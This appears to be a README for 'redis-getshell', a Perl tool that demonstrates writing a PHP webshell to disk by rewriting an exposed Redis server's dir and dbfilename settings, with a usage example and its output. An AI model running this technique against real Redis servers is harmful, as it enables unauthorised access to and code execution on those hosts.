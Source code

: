 ## redis-getshell

The script below demonstrates the possibility to dump a webshell with redis server

## usage

%> ./redis-getshell.pl --host 127.0.0.1 --port 6379 --path /tmp/ooo.php
[+] Connection established 127.0.0.1:6379
[+] Receiving old dbfilename value
[+] Receiving old dir value
[+] Alternating configuration
    -> dir /tmp
    -> dbfilename ooo.php
    -> webshell <?php phpinfo (); ?>
[+] Restoring configuration
